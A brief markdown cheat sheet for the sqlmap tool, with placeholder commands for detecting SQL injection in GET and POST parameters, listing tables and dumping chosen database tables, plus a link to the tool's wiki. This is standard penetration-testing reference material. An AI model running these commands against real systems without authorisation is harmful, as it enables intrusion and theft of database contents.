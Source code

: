 # sqlmap

detect and exploit SQL injection flaws

## detect/verify vulnerability in a GET request

* specify testable parameter(s) (`p`)

```
sqlmap -u <URL incl. query parameters> -p <parameter(s)>
```

## detect/verify vulnerability in a POST request

```
sqlmap -u <URL> --data="k=v&key=value" -p <parameter(s)>
```

## list all tables

* specify the backend DB management schema (`dbms`)

```
sqlmap -u <URL> -p <parameter> --dbms=<DBMS> --tables
```

## dump specific tables of a specific database

* specify the database (`D`)
* specify the table(s) (`T`)

```
sqlmap -u <URL> -p <parameter> --dbms=<DBMS> -D <database> -T <table(s)> --dump
```

## [...](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
